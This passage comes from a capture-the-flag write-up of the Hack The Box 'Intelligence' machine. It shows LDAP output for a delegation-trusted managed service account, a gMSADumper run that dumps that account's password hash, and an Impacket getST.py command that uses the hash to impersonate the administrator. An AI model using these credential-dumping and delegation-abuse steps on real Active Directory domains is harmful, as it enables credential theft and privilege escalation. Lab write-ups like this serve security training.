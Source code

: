 From the lengthy output, this is the key parts:

```text
accountexpires:                 never
distinguishedname:              CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
dnshostname:                    svc_int.intelligence.htb
msds-allowedtodelegateto:       WWW/dc.intelligence.htb
name:                           svc_int
objectcategory:                 CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=intelligence,DC=htb
objectclass:                    msDS-GroupManagedServiceAccount
samaccountname:                 svc_int$
useraccountcontrol:             ['WORKSTATION_TRUST_ACCOUNT', 'TRUSTED_TO_AUTH_FOR_DELEGATION']
```

## gMSADumper

We have a group managed service account that is trusted for delegation to WWW. With Ted's access we can grab the hash of that account using [gMSADumper](https://github.com/micahvandeusen/gMSADumper):

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# wget https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py
--2021-10-08 15:12:07--  https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4609 (4.5K) [text/plain]
Saving to: ‘gMSADumper.py’
gMSADumper.py      100%[==================================================================>]   4.50K  --.-KB/s    in 0.001s  
2021-10-08 15:12:07 (3.61 MB/s) - ‘gMSADumper.py’ saved [4609/4609]

┌──(root💀kali)-[~/htb/intelligence]
└─# python3 gMSADumper.py -u Ted.Graves -p <HIDDEN> -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::d170ae19de30439df55d6430e12dd621
```

## Impacket Service Ticket

With the hash of the service account we can use the [Impacket](https://github.com/SecureAuthCorp/impacket) getST.py script to request a service ticket whilst imperosnating the administrator:

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate administrator
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
